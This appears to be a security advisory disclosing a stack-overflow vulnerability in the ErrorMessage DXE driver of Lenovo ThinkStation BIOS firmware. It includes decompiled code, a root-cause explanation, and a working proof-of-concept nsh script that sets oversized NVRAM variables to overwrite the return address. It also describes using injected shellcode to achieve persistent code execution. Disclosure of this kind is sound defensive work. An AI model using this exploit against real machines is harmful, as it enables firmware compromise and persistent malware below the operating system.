





There is a vulnerability in the latest version of BIOS firmwares in multiple ThinkStations, which could lead to **arbitrary code execution in UEFI DXE phase**.

Take ThinkStation P320 for example, the latest version of the firmware can be downloaded here: https://download.lenovo.com/pccbbs/thinkcentre_bios/s06jy61usa.exe. This firmware is updated in 20 July, 2022.

## Vulnerability Description

This vulnerability is similar to CVE-2021-42059, the vulnerability exists due to incorrect use of the `gRT->GetVariable` service in driver `ErrorMessage`.

The root cause exists in function located offset `0x1C88` in `ErrorMessage`.

```C
__int64 sub_1C88()
{
 // ...
  DataSize[0] = 1i64;
  if ( (gRT_0->GetVariable(aBiospwdchanged, &VendorGuid, 0i64, DataSize, &Data) & 0x8000000000000000ui64) == 0i64
    && Data == 1 )
  {
    sub_42E4(2i64, 4294967071i64, 0i64, 0i64, 0i64);
    Data = 0;
    gRT_0->SetVariable(aBiospwdchanged, &VendorGuid, 7u, DataSize[0], &Data);
  }
  if ( (gRT_0->GetVariable(aBiossetupdatac, &VendorGuid, 0i64, DataSize, &v5) & 0x8000000000000000ui64) == 0i64
    && v5 == 1 )
  {
    sub_42E4(2i64, 4294967072i64, 0i64, 0i64, 0i64);
    v5 = 0;
    gRT_0->SetVariable(aBiossetupdatac, &VendorGuid, 7u, 1ui64, &v5);
  }
  if ( (gRT_0->GetVariable(aHarddiskpwdcha, &VendorGuid, 0i64, DataSize, v1) & 0x8000000000000000ui64) == 0i64
    && v1[0] == 1 )
  {
    sub_42E4(2i64, 4294967078i64, 0i64, 0i64, 0i64);
    v1[0] = 0;
    gRT_0->SetVariable(aHarddiskpwdcha, &VendorGuid, 7u, 1ui64, v1);
  }
  result = gRT_0->GetVariable(aBiosupdatenvra, &VendorGuid, 0i64, DataSize, &v3);
  //...
}
```

The above codes simply do following things:

1. Use `GetVariable` service to get the variable `BIOSPWDChangedFlag`'s value from the NVRAM.
2. If the previous step fails, which would return a negative error code, the execution flow will pass the if section, and will try to call `GetVariable` service to read the variable `BIOSSetupDataChangedFlag` instead.
3. Similarly, if the second step still fails, it will try to call `GetVariable` for the third time, this time would try to read the variable `HardDiskPwdChangedFlag`.
4. Finally, if the third step fails, it will try to read the variable `BIOSUpdateNVRAMFlag`.


**The problem is,  these calls to GetVariable share a same `DataSize` without initialization between.**

If the value of  variable `BIOSPWDChangedFlag` is a very large string, after the first call to `gRT->GetVariable`, the value of `DataSize` will be updated to the size of a large int number.

Thus the following call to `gRT->GetVariable` may cause a stack overflow if `BIOSSetupDataChangedFlag`'s size (or other variable's size) is large than the original buffer. 


## Vulnerability Analysis

We first write a PoC script, that overwrites the return address to "AAAA".

Before we run the exploit, use the Emulator build from EDK2, and simply load the driver.



The driver is loaded successfully. The PoC is written in a `nsh` script:

```nsh
setvar BIOSPWDChangedFlag -guid e102c8aa-0f10-4a0e-90a7-a6f816089bb7 -bs -rt -nv =4141414141414141414141414141414141414141414141    4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141

setvar BIOSSetupDataChangedFlag -guid e102c8aa-0f10-4a0e-90a7-a6f816089bb7 -bs -rt -nv =4141414141414141414141414141414141414141414141    4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141
```

After running the script, the variable `BIOSPWDChangedFlag` and `BIOSSetupDataChangedFlag` will be set to a large string full of "AAAA".

Using gdb to debug, we can see that when the parent function of `sub_1c88` trys to return, the return address has been overflowed to our payload.



And because the variable is stored in the NVRAM, the next time we trys to load the driver, the shellcode will still be triggered thus cause a exception.



This exception occurs because the return address of the parent function has been overwrited to AAAAAAAA

Since we can control the **RIP**, we can further write shellcode in the stack to perform a call to `ConOut->OutputString`. 

We can use rasm2 to generate the shellcode.



Run the script to set two variables and load the driver, we can see that the control flow has been hijacked and we successfully print a string.



Similarly, we can choose `HardDiskPwdChangedFlag` or `BIOSUpdateNVRAMFlag` rather than `BIOSPWDChangedFlag` and `BIOSSetupDataChangedFlag` to excute our shellcode.

In conclusion, an attack can exploit this vulnerability to **elevate privileges from ring 3 or ring 0 **(depends on the operating system) to DXE Runtime UEFI application and **execute arbitrary code**.

And a **malicious code can be installed** as a result of the vulnerability exploitation in DXE driver, which could **survive across an operating system (OS) boot process **and runtime or modify NVRAM area on SPI flash storage (to gain persistence on target platform).

## Credits

This vulnerability is found by Zichuan Li([@river-li](https://github.com/river-li)) and Fangtao Cao([@cft789](https://github.com/cft789)).
